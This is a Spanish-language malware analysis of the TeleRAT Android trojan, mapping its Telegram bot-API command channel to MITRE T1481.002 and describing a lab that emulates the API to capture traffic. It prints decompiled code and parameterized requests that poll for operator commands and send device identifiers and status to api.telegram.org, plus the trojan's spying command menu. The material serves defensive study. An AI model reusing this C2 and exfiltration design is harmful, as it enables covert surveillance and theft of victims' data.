

La referencia pública de [Unit 42 sobre TeleRAT](https://unit42.paloaltonetworks.com/unit42-telerat-another-android-trojan-leveraging-telegrams-bot-api-to-target-iranian-users/) describe una familia de troyanos Android dirigida principalmente contra usuarios iraníes que emplea la API para bots de Telegram tanto para recibir órdenes como para devolver información. La muestra analizada conserva los rasgos que sustentan esa identificación: el paquete `b4a.examplf`, la etiqueta `telegram hacker`, los ficheros internos `telerat2.txt` y `thisapk_slm.txt`, el servicio de recepción `teleser`, el ejecutor `botrat` y un token de bot junto con un identificador de conversación incrustados en el código.

Este comportamiento encaja directamente con **T1481.002 - Web Service: Bidirectional Communication**. La [definición de MITRE ATT&CK](https://attack.mitre.org/techniques/T1481/002/) contempla el uso de un servicio web legítimo para enviar órdenes al sistema comprometido y recibir por ese mismo servicio el resultado de su ejecución. TeleRAT satisface ambas partes mediante `api.telegram.org`: consulta los mensajes pendientes con `getUpdates` y publica las respuestas mediante métodos como `sendMessage`, `sendDocument` o `sendPhoto`.

La comunicación de entrada no es una conexión iniciada desde Telegram hacia el terminal. Es la propia víctima la que consulta periódicamente la API. Por ello, en una captura realizada en el dispositivo, la orden aparece dentro de la respuesta de Telegram a una petición saliente `getUpdates`. Tras ejecutar la orden, el terminal abre otra petición contra el mismo servicio para publicar el resultado.

En Telegram, un bot es una cuenta automatizada que se controla mediante peticiones a la API. El token es la credencial que identifica y autoriza el acceso a esa cuenta, mientras que el identificador de conversación, denominado `chat_id` por Telegram, señala la conversación concreta en la que se publican los mensajes. TeleRAT lleva ambos valores incrustados en el código, por lo que el terminal infectado y el operador utilizan la misma cuenta de bot y la misma conversación como canal compartido.

La muestra tampoco realiza un registro de víctima convencional. No negocia un identificador propio con un panel ni recibe una configuración nueva. La asociación con el C2 consiste en utilizar esos valores ya incorporados a la aplicación. El modelo del dispositivo y `android_id` se añaden posteriormente al texto de algunas respuestas para que el operador pueda distinguir terminales.

El análisis se apoya en la APK abierta en JADX:

| Artefacto estudiado | Identidad | SHA-256 |
|---|---|---|
| APK original | Paquete `b4a.examplf`; etiqueta `telegram hacker`; versión `vahidmail67`; API mínima 5 y objetivo 19 | `01fef43c059d6b37be7faf47a08eccbf76cf7f050a7340ac2cae11942f27eb1d` |

### Estructura del canal Telegram

Los parámetros relevantes del canal pueden representarse sin reproducir credenciales reales:

| Parámetro | Origen en la muestra | Uso en red |
| --- | --- | --- |
| `<BOT_TOKEN>` | `teleser._bot_token` y `botrat._bot_token` | Se inserta en la ruta `/bot<BOT_TOKEN>/...`. |
| `<CHAT_ID>` | `teleser._chatid` y `botrat._chatid` | Identifica la conversación a la que se envían los resultados. |
| `<UPDATE_ID>` | Respuesta de Telegram | Identifica una actualización, es decir, un nuevo suceso entregado al bot; en este flujo, el mensaje que contiene la orden. |
| `<MODEL>` | `Phone.getModel()` | Se añade a la respuesta del comando seleccionado. |
| `<ANDROID_ID>` | `Phone.GetSettings("android_id")` | Se añade a la respuesta del comando seleccionado. |
| `<DATE>` | `PersianDate.getDate(...)` | Fecha incluida en el resultado. |
| `<TIME>` | `DateTime.Time(DateTime.getNow())` | Hora incluida en el resultado. |

Los dos servicios de la aplicación comparten el mismo token y el mismo identificador de conversación:

```java
// b4a.examplf.teleser._process_globals()
_chatid = "<CHAT_ID>";
_bot_token = "<BOT_TOKEN>";

// b4a.examplf.botrat._process_globals()
_chatid = "<CHAT_ID>";
_bot_token = "<BOT_TOKEN>";
```

El canal de entrada usa HTTPS y el método `getUpdates`. La petición construida por esta muestra tiene la forma siguiente:

```http
POST /bot<BOT_TOKEN>/getUpdates HTTP/1.1
Host: api.telegram.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

amir
```

El cuerpo no contiene un formulario válido ni parámetros de la API. Es literalmente la cadena `amir`, que no tiene un significado reconocido por Telegram ni transporta información de la víctima. Es un valor fijo elegido por el autor y Telegram puede ignorarlo porque `getUpdates` no necesita parámetros obligatorios.

La respuesta de Telegram es JSON. Para el comando elegido en este análisis, **`دریافت وضعیت`**, cuya función es solicitar el estado del terminal, el contenido lógico necesario es:

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"ok":true,"result":[{"update_id":<UPDATE_ID>,"message":{"message_id":<MESSAGE_ID>,"from":{"id":<OPERATOR_USER_ID>,"is_bot":false,"first_name":"<OPERATOR_FIRST_NAME>","username":"<OPERATOR_USERNAME>"},"chat":{"id":<CHAT_ID>,"type":"private"},"date":<UNIX_TIME>,"text":"دریافت وضعیت"}}]}
```

La ausencia de espacios alrededor de los separadores no es meramente estética. El analizador busca literales como `'text':'`, `'username':'` y `'first_name':'` después de sustituir las comillas dobles. El futuro servidor de laboratorio debe emitir el JSON en esta forma compacta para reproducir la respuesta que el código sabe consumir.

El canal de salida, por el que el malware devuelve la respuesta a la orden recibida, utiliza el método `sendMessage`. En esta rama concreta, la muestra no emplea la misma función auxiliar que recibe las órdenes. El método `botrat._send_message()` construye una URL con esquema `http` y `httpjob._download2()` la convierte en una petición `GET`:

```http
GET /bot<BOT_TOKEN>/sendmessage?chat_id=<CHAT_ID>&text=<STATUS_TEXT_URL_ENCODED> HTTP/1.1
Host: api.telegram.org
```

La primera petición producida por el código para esta respuesta sale por HTTP en claro hacia el puerto TCP `80`. La muestra utiliza la biblioteca HTTP de Apache y, concretamente, su cliente `DefaultHttpClient` para enviar las peticiones construidas por sus funciones auxiliares. Esta biblioteca añade automáticamente determinados encabezados de transporte. Dichos encabezados, así como las direcciones IP, los puertos efímeros, la versión TLS y el conjunto criptográfico negociado, no están fijados por el código malicioso. Sí están fijados el nombre `api.telegram.org`, los esquemas `https` y `http`, los métodos, las rutas, el tipo de contenido de las peticiones `POST` y los cuerpos creados por la aplicación. El uso de HTTP en claro para devolver el resultado impide reproducir esta rama contra la infraestructura pública, pues la [API de Telegram exige HTTPS](https://core.telegram.org/bots/api). Por tanto, una captura fiel de la APK requiere emular localmente la API, como hace el laboratorio en Python.

### Inicio de los servicios y comunicaciones iniciales

El punto de entrada `b4a.examplf.main._activity_create()` inicia los servicios `teleser` y `botrat`, además de otros componentes que no intervienen en este flujo:

```java
public static String _activity_create(boolean z) throws Exception {
    mostCurrent._activity.LoadLayout("frm1", mostCurrent.activityBA);
    Common.StartService(mostCurrent.activityBA, teleser.getObject());
    Common.StartService(mostCurrent.activityBA, botrat.getObject());
    Common.StartService(mostCurrent.activityBA, checkcall.getObject());
    Common.StartService(mostCurrent.activityBA, service_starter.getObject());
    return "";
}
```

El servicio `teleser` mantiene la consulta a Telegram. Al crearse, configura dos temporizadores independientes:

```java
public static String _service_create() throws Exception {
    _t1.Initialize(processBA, "t1", 3100L);
    _t1.setEnabled(true);
    _t2.Initialize(processBA, "t2", 3400L);
    _t2.setEnabled(true);
    _n1 = -1;
    ...
    return "";
}
```

El primero solicita actualizaciones cada `3100` milisegundos. El segundo comprueba cada `3400` milisegundos si la cantidad de mensajes recuperados ha aumentado. El servicio `botrat`, por su parte, instala un temporizador de `4600` milisegundos para consumir la orden que `teleser` haya dejado preparada:

```java
public static String _service_create() throws Exception {
    _tim.Initialize(processBA, "tim", 4600L);
    _tim.setEnabled(true);
    ...
    return "";
}
```

La petición `getUpdates` se programa cada `3,1` segundos; los `4,6` segundos corresponden al temporizador que entrega la orden al ejecutor. Al ser temporizadores independientes, el tiempo exacto entre la respuesta de Telegram y la ejecución depende de la fase en la que se encuentre cada uno.

El primer arranque no contiene una petición de registro que negocie la identidad de la víctima con el C2. El token del bot y el `chat_id` ya están incrustados en la aplicación. Sí contiene dos mensajes iniciales que informan al operador y preparan la conversación de Telegram. La muestra utiliza los ficheros vacíos `telerat2.txt` y `thisapk_slm.txt` como marcadores locales para enviar cada uno de esos mensajes una sola vez.

#### Informe de instalación

El denominado informe de instalación no es un fichero ni una carga adjunta. Es un mensaje de texto que comunica que un nuevo dispositivo ha instalado la aplicación y enumera información del terminal. La clase `botrat`, dentro de `_service_create()`, comprueba primero si existe `telerat2.txt`. Cuando no existe, crea el marcador antes de construir y enviar el mensaje:

```java
if (!File.Exists(File.getDirInternal(), "telerat2.txt")) {
    File.WriteString(File.getDirInternal(), "telerat2.txt", "");
    ...
    _text_for_send = sbAppend4
        .append(DateTime.Time(DateTime.getNow()))
        .toString();
    _text_for_send = _st.EncodeUrl(_text_for_send, "UTF-8");
    _send_message2(_text_for_send);
}
```

El contenido lógico del informe, antes de codificarlo para introducirlo en la URL, es el siguiente:

```text
تهیه شده توسط  وحید میل شصتو هفت @vahidmail67 ♡دستگاه جدیدی برنامه را نصب کرد✅

مدل دستگاه:<MODEL>
شرکت سازنده:<BRAND>
نسخه اندروید:<ANDROID_RELEASE>
نوع نمایشگر:<DISPLAY>
مدل کامل دستگاه:<BOOTLOADER>
مقدار حافظه داخلی:<TOTAL_INTERNAL_MB> MB
مقدار فضای خالی حافظه داخلی:<AVAILABLE_INTERNAL_MB> MB
مقدار حافظی اس دی کارت:<TOTAL_EXTERNAL_MB> MB
مقدار فضای خالی اس دی کارت:<AVAILABLE_EXTERNAL_MB> MB
تعداد هسته های دستگاه:<CPU_CORES>
نام اپراتور:<NETWORK_OPERATOR>
آیدی دستگاه:<ANDROID_ID>
تاریخ⬅️🏻<DATE>
ساعت⏱<TIME>
```

Los valores proceden, respectivamente, del modelo, la marca, la versión de Android, el identificador de compilación `DISPLAY`, el cargador de arranque, la capacidad total y disponible del almacenamiento interno y externo expresada como un número entero de MB, el número de núcleos, el nombre del operador móvil, `android_id`, la fecha persa y la hora local. Aunque la etiqueta persa indica «modelo completo del dispositivo», el código inserta realmente el valor del cargador de arranque mediante `getBootloader()`.

Antes de llamar a `_send_message2()`, el método `_service_create()` codifica el texto completo en UTF-8. El método `_send_message2()` coloca el resultado en el parámetro `text` de `sendMessage` y llama a `_poststring()` con una cadena vacía como segundo argumento:

```java
httpjobVar._poststring(
    "http://api.telegram.org/bot" + _bot_token
        + "/sendmessage?chat_id=" + _chatid
        + "&text=" + str,
    ""
);
```

La presencia de `chat_id` y `text` en la URI no convierte la petición en un `GET`. El método HTTP y la ubicación de los parámetros son cuestiones independientes. En este caso, `_poststring()` convierte la cadena vacía en un cuerpo de cero bytes; después, `_postbytes()` llama a `InitializePost2()`, que crea expresamente un objeto `HttpPost`. Por tanto, el método transmitido en la línea inicial es `POST`, los datos del informe viajan en la cadena de consulta de la URI y el cuerpo permanece vacío:

```http
POST /bot<BOT_TOKEN>/sendmessage?chat_id=<CHAT_ID>&text=<INSTALL_REPORT_URL_ENCODED> HTTP/1.1
Host: api.telegram.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

Telegram publica ese texto en la conversación identificada por `<CHAT_ID>` si la petición se completa correctamente. La clase `botrat` crea `telerat2.txt` antes de intentar enviarlo. En los siguientes arranques, la existencia del fichero hace que el código omita todo el bloque encargado de construir y mandar el informe. Por tanto, si la primera petición falla, la muestra no vuelve a intentarlo, ya que `telerat2.txt` permanece creado.

#### Primer sondeo y envío del teclado de órdenes

La clase `teleser` prepara durante su creación 23 textos de órdenes y los distribuye en un teclado de nueve filas. No lo envía todavía. El envío se produce cuando termina la primera petición `getUpdates` y se ejecuta `_tele_finish()`. Para que el PCAP represente un primer arranque sin una orden pendiente, el laboratorio responderá a ese primer sondeo con:

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"ok":true,"result":[]}
```

La lista `result` vacía indica únicamente que Telegram no tiene todavía ninguna actualización que entregar. Esta primera petición realiza exactamente la misma función que los sondeos posteriores; la diferencia es que una respuesta posterior incluirá en `result` el mensaje con la orden del operador.

Después de procesar esa respuesta, `_tele_finish()` comprueba `thisapk_slm.txt`. Si el fichero no existe, llama a `_send_messagewithbutton()` y crea seguidamente el marcador, sin esperar la respuesta de Telegram:

```java
if (!File.Exists(File.getDirInternal(), "thisapk_slm.txt")) {
    _tele._send_messagewithbutton(
        _chatid,
        "این رات توسط وحید میل شصتو هفت تهیه شده ..برای کنترل رات از دستورات زیر استفاده کنید",
        _chinesh
    );
    File.WriteString(File.getDirInternal(), "thisapk_slm.txt", "");
}
```

El mensaje indica al operador que utilice las órdenes mostradas debajo. El tercer argumento, `_chinesh`, contiene la representación codificada para URL del objeto JSON que Telegram interpreta como un teclado personalizado. Antes de esa codificación, el objeto presenta esta estructura exacta:

```json
{
  "keyboard": [
    ["دریافت مخاطبین", "دریافت پیام ها", "دریافت برنامه ها"],
    ["دریافت مکان", "دریافت گالری", "دریافت کلیپ بورد"],
    ["دریافت وضعیت", "دریافت اطلاعات شارژ", "دریافت تماس ها"],
    ["لرزش کم", "لرزش متوسط", "لرزش زیاد"],
    ["سایلنت", "صدا دار", "بیصدا"],
    ["Blacksc", "Blackscf"],
    ["گرفتن عکس1", "گرفتن عکس2"],
    ["ضبط فیلم", "توقف ضبط فیلم"],
    ["راهنمای دستورات", "توقف رات"]
  ],
  "resize_keyboard": true
}
```

El campo `keyboard` define las filas y los textos de los botones. El campo `resize_keyboard` solicita a Telegram que ajuste el tamaño del teclado a su contenido. Al pulsar un botón, la aplicación de Telegram del operador envía a la conversación un mensaje cuyo texto coincide exactamente con el botón. TeleRAT recupera después ese texto mediante `getUpdates` y lo interpreta como una orden.

El método `_send_messagewithbutton()` usa HTTPS y construye una URL con tres parámetros de consulta. El parámetro `chat_id` recibe el identificador de la conversación. El parámetro `text` recibe el mensaje introductorio después de que `_encodeurl()` sustituya los espacios por `%20` y los saltos de línea por `%0A`. El parámetro `reply_markup` recibe el objeto JSON del teclado después de codificarlo para una URL mediante `URLEncoder.encode(..., "UTF8")`. De forma independiente, el segundo argumento de `_poststring()` establece la cadena literal `amir` como cuerpo del `POST`; la función la convierte en cuatro bytes UTF-8:

```java
_jobdofaal._poststring(
    "https://api.telegram.org/bot" + _tokenbot
        + "/sendmessage?chat_id=" + str
        + "&text=" + _encodeurl(str2)
        + "&reply_markup=" + str3,
    "amir"
);
```

La petición resultante tiene este formato:

```http
POST /bot<BOT_TOKEN>/sendmessage?chat_id=<CHAT_ID>&text=<KEYBOARD_PROMPT_URL_ENCODED>&reply_markup=<KEYBOARD_JSON_URL_ENCODED> HTTP/1.1
Host: api.telegram.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

amir
```

El marcador `<KEYBOARD_PROMPT_URL_ENCODED>` representa el texto persa mostrado en el código después de aplicar las sustituciones de `_encodeurl()`. El marcador `<KEYBOARD_JSON_URL_ENCODED>` representa el objeto JSON anterior transformado mediante la codificación de formulario para URL, utilizando UTF-8 para convertir sus caracteres en bytes antes de representarlos en la URI.

Por tanto, los dos ficheros solo controlan la repetición de los mensajes iniciales. No habilitan el bot, no registran la víctima y no condicionan los sondeos posteriores.

### Sondeo y recepción de la orden

Cada vencimiento de `t1` vuelve a inicializar el componente de acceso a Telegram:

```java
public static String _t1_tick() throws Exception {
    _tele._initialize(processBA, _bot_token, "teleser", "tele");
    return "";
}
```

La petición real se crea en `TP.GetUpdate.tp1.tp_getupdate._initialize()`:

```java
public String _initialize(BA ba, String str, Object obj, String str2)
        throws Exception {
    innerInitialize(ba);
    this._get._initialize(this.ba, "get", this);
    this._get._poststring(
        "https://api.telegram.org/bot" + str + "/getUpdates",
        "amir"
    );
    this._tokenbot = str;
    ...
    return "";
}
```

El método `httpjob._poststring()` codifica `amir` como cuatro bytes UTF-8 y llama a `InitializePost2()`. La biblioteca fija el tipo del cuerpo:

```java
public String _poststring(String str, String str2) throws Exception {
    _postbytes(str, str2.getBytes("UTF8"));
    return "";
}

public void InitializePost2(String str, byte[] bArr) {
    HttpPost httpPost = new HttpPost(str);
    this.req = httpPost;
    this.entity = new ByteArrayEntity(bArr);
    httpPost.setEntity(this.entity);
    this.entity.setContentType("application/x-www-form-urlencoded");
    this.POST = true;
    sharedInit();
}
```

Cuando llega la respuesta, el método `tp_getupdate._jobdone()` comprueba que el trabajo se llame `get`. Este nombre es solo la etiqueta interna que la muestra asigna a la petición para reconocer su resultado; no es otro método de Telegram. A continuación, sustituye comillas dobles por simples, divide el texto usando `update_id` y llama a `_show_message()`:

```java
if (httpjobVar._jobname.equals("get")) {
    String strReplace = this._get._getstring().replace(Common.QUOTE, "'");
    String[] strArrSplit = Regex.Split("update_id", strReplace);
    ...
    this._getupdate.Add(strArrSplit[i]);
    ...
    _show_message();
    return "";
}
```

El analizador no usa un tratamiento JSON robusto para las órdenes. Localiza la última aparición de `'text':'` en cada fragmento y conserva el texto situado a continuación:

```java
String strObjectToString = BA.ObjectToString(this._getupdate.Get(i));
String strSubstring = strObjectToString.substring(
    strObjectToString.lastIndexOf("'text':'") + 8
);
this._str4 = Regex.Split("'", strSubstring)[0];
_replaceper(this._str4);
this._user_messages.Add(this._str5);
```

La muestra también intenta extraer `username`, `first_name`, `id`, `message_id` y `date`. Existe un error de índice en la extracción final de la fecha, pero la excepción se captura y el componente invoca igualmente `tele_Finish`. Por tanto, ese defecto no impide que el texto de la orden ya añadido a `_user_messages` llegue al servicio `teleser`.

No hay una comprobación que limite las órdenes al `chat_id` incrustado, a un identificador de usuario concreto o a un nombre de operador. Cualquier mensaje devuelto por `getUpdates` puede alimentar el ejecutor. Para una captura controlada, el servidor debe devolver una única actualización nueva y colocar `دریافت وضعیت` en `message.text`.

### Entrega interna al ejecutor

El final de la consulta copia los mensajes recuperados a `_l1`:

```java
public static String _tele_finish(boolean z) throws Exception {
    try {
        _l1 = _tele._user_messages;
        _listsize = _l1.getSize() - 1;
    } catch (Exception e) {
        ...
    }
    ...
}
```

En el siguiente vencimiento de `t2`, el servicio compara el tamaño de la lista con `_n1`. Si ha aumentado, toma el último texto recuperado y lo coloca en `_field1`:

```java
public static String _t2_tick() throws Exception {
    if (_l1.getSize() <= 0) {
        return "";
    }
    if (_l1.getSize() > _n1) {
        _n1 = _l1.getSize();
        _field1 = BA.ObjectToString(_l1.Get(_l1.getSize() - 1));
    } else {
        _field1 = "EMPTY";
    }
    return "";
}
```

Finalmente, el temporizador `tim` de la clase `botrat` entrega ese texto a `_do_it()`:

```java
public static String _tim_tick() throws Exception {
    if (!teleser._field1.equals("---")
            && !teleser._field1.equals("")) {
        _do_it(teleser._field1);
    }
    return "";
}
```

Para el flujo propuesto, `_field1` contiene exactamente:

```text
دریافت وضعیت
```

### Ejecución de `دریافت وضعیت` y retorno por Telegram

La rama seleccionada se encuentra en `b4a.examplf.botrat._do_it()`. Construye un mensaje de estado con la fecha y la hora locales y lo pasa a `_send_message()`:

```java
if (str.equals("دریافت وضعیت")) {
    StringBuilder sbAppend5 = new StringBuilder()
        .append("وحید میل شصتو هفت ..دستگاه به اینترنت متصل است❇️\nتاریخ⬅️🏻")
        .append(_am.getDate(0, 0, 0, "/"))
        .append(Common.CRLF)
        .append("ساعت⏱");
    _send_message(
        sbAppend5.append(DateTime.Time(DateTime.getNow())).toString()
    );
    return "";
}
```

El método `_send_message()` añade el modelo y el identificador Android. Después usa `Download2`, que crea una petición `GET` y codifica en UTF-8 los nombres y valores de la consulta:

```java
public static String _send_message(String str) throws Exception {
    httpjob httpjobVar = new httpjob();
    httpjobVar._initialize(processBA, "jobSendMessage", getObject());
    String str2 = "http://api.telegram.org/bot"
        + _bot_token
        + "/sendmessage";

    httpjobVar._download2(
        str2,
        new String[]{
            "chat_id", _chatid,
            "text",
            str
                + Common.CRLF
                + Common.CRLF
                + "مدل دستگاه:"
                + Phone.getModel()
                + Common.CRLF
                + "آیدی دستگاه:"
                + Phone.GetSettings("android_id")
        }
    );
    return "";
}
```

La variable lógica que debe codificarse como `<STATUS_TEXT_URL_ENCODED>` es la siguiente. El marcador representa este texto convertido al formato de codificación de una consulta URL, de modo que caracteres persas, saltos de línea, espacios y símbolos puedan viajar dentro del parámetro `text` de la petición `GET`:

```text
وحید میل شصتو هفت ..دستگاه به اینترنت متصل است❇️
تاریخ⬅️🏻<DATE>
ساعت⏱<TIME>

مدل دستگاه:<MODEL>
آیدی دستگاه:<ANDROID_ID>
```

El mensaje HTTP generado queda parametrizado de esta forma:

```http
GET /bot<BOT_TOKEN>/sendmessage?chat_id=<CHAT_ID>&text=<STATUS_TEXT_URL_ENCODED> HTTP/1.1
Host: api.telegram.org
```

Para cerrar la conversación de forma positiva, el servidor del laboratorio debe contestar con un código `2xx` y un resultado coherente de `sendMessage`:

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "ok": true,
  "result": {
    "message_id": <RESULT_MESSAGE_ID>,
    "from": {
      "id": <BOT_ID>,
      "is_bot": true
    },
    "chat": {
      "id": <CHAT_ID>,
      "type": "private"
    },
    "date": <UNIX_TIME>,
    "text": "<STATUS_TEXT>"
  }
}
```

El método `botrat._jobdone()` no procesa este cuerpo porque solo contiene lógica específica para el trabajo `jobsetwallpaper`. La respuesta `2xx` cierra correctamente la petición, pero la aplicación no valida `ok`, `result` ni el identificador del mensaje. La demostración de T1481.002 ya se ha materializado: una orden ha entrado desde Telegram en el resultado de `getUpdates` y el terminal ha publicado por el mismo servicio el texto generado al ejecutarla.

### Secuencia comunicativa



### Laboratorio de generación del PCAP

El laboratorio ejecuta la muestra original de TeleRAT en el AVD AOSP `golden_api21_aosp`, basado en Android 5.0/API 21. Esta versión es necesaria porque la APK distribuye código entre `classes.dex` y `classes2.dex`; Android 4.4/API 19 intenta inicializar `com.applisto.appcloner.classes.DefaultProvider` antes de cargar el segundo DEX y la aplicación termina durante el arranque. Android Emulator permanece en Windows y Kali WSL aloja las entidades controladas.

| Entidad | Dirección y servicio | Procedencia |
|---|---|---|
| DNS controlado | `10.230.70.53:53` | Dirección privada asignada al resolutor del laboratorio. |
| API de Telegram emulada | `149.154.167.220:80` y `149.154.167.220:443` | Dirección incluida en el prefijo `149.154.160.0/20` publicado por [Telegram](https://core.telegram.org/resources/cidr.txt). Representa el servicio legítimo abusado por TeleRAT, no infraestructura dedicada a la familia. |
| Operador | `10.230.70.20:9000` | Dirección privada desde la que se proporciona a la API emulada la orden destinada a la muestra. No es un IOC ni se anuncia al dispositivo. |

El AVD confía previamente en la autoridad `TeleRAT Lab CA`. El certificado presentado para `api.telegram.org` contiene ese nombre en su SAN y está firmado por dicha autoridad. El servidor conserva TLS 1.0 y `TLS_RSA_WITH_AES_128_CBC_SHA`, de acuerdo con la ejecución observada; la clave privada RSA y los certificados quedan inventariados junto al PCAP para permitir el descifrado. Esta preparación pertenece al estado previo de la máquina virtual y no se repite durante la captura.

TeleRAT deshabilita su componente lanzador después de ocultar la actividad, por lo que una repetición debe restaurar `b4a.examplf/.main` antes de abrir la aplicación. El operador emulado introduce `دریافت وضعیت` después de recibir el mensaje que contiene el teclado de órdenes; la muestra obtiene la orden mediante `getUpdates` y devuelve el resultado mediante el mismo servicio.

Este escenario está incorporado en `python-labnet` con el identificador `telerat`. La preparación de la topología, el arranque manual del AVD, la captura interactiva y la retirada del entorno se describen en la [guía central de laboratorios Android](Laboratorios%20Android.md).
